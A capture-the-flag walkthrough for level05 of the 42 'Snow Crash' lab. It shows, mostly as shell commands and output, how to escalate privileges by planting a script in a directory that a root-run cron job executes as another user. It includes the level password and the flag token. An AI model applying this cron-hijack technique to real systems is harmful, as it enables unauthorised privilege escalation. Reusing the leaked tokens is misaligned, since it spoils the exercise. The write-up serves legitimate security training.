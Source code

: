 Login as `level05`.
```shell
┌──$ [~/42/2020/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level05
level05@192.168.1.64's password: ne2searoevaevoem4ov4ar8ap
You have new mail.
```
Once logged into `level05` a message says that there is a new mail.
As `mail` program is not installed, it's likely to be in the spool file `/var/mail/$USER`
```shell
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
Seems that there is a `cron` job which executes the above command at every 2nd minute.

Looking inside scripts shows a loop which iterate through all the files in `/opt/openarenaserver/` and evaluate them.

`ulimit -t` means that the following process should be terminated if it uses more CPU time than what is specified in `-t`. Then the file is removed.
```shell
level05@SnowCrash:/opt/openarenaserver$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Create a script which will get the flag and redirect the output into `/tmp/flag05`.
```shell
level05@SnowCrash:~$ vi /opt/openarenaserver/getflag.sh
#!/bin/bash
/bin/getflag > /tmp/flag05
```
Change file modes by setting on execute bits.
```shell
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/getflag.sh
```
Execute cat program periodically on `/tmp/flag05`.
```shell
level05@SnowCrash:~$ watch -n 0.1 cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
